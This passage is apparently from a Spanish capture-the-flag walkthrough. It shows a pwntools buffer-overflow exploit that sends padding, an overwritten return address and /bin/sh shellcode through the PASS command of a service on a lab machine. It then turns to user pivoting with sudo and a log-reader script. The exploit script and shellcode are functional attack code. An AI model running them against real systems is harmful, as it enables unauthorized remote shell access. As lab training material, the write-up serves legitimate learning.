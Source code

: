     context(os='linux', arch='i386')

    # p = remote("127.0.0.1", 7411)
    p = remote("10.10.10.34", 7411)

    buf = b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
    buf += b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
    buf += b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
    buf += b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
    buf += b"\x89\xe3\x31\xc9\xcd\x80"


    before_eip = ("A" * 28).encode()
    EIP = p32(0xffffd140+32)
    after_eip = buf

    p.recvuntil("OK Ready. Send USER command.")
    p.sendline("USER admin")
    p.recvuntil("OK Send PASS command.")
    p.sendline("PASS ".encode() + before_eip + EIP + after_eip)

    p.interactive()
    ```

1. Lanzamos el script en python

    ```bash
    python3 exploit.py
    ```


Ya hemos ganado acceso al systema como el usuario **nobody** pero no podemos leer la flag y nos tenemos que convertir en el usuario frank.

### User pivoting {-}

```bash
id
sudo -l
```

Vemos que podemos lanzar el script `/opt/logreader/logreader.sh` como el usuario frank sin proporcionar contraseña.

```bash
cat /opt/logreader/logreader.sh
sudo -u frank /opt/logreader/logreader.sh
which strace
which ltrace
which checkproc
```

Vemos que podemos lanzar el script pero no sabemos exactamente lo que hace y no lo podemos debuggear. 

Miramos a los recursos compartidos **nfs** de la maquina
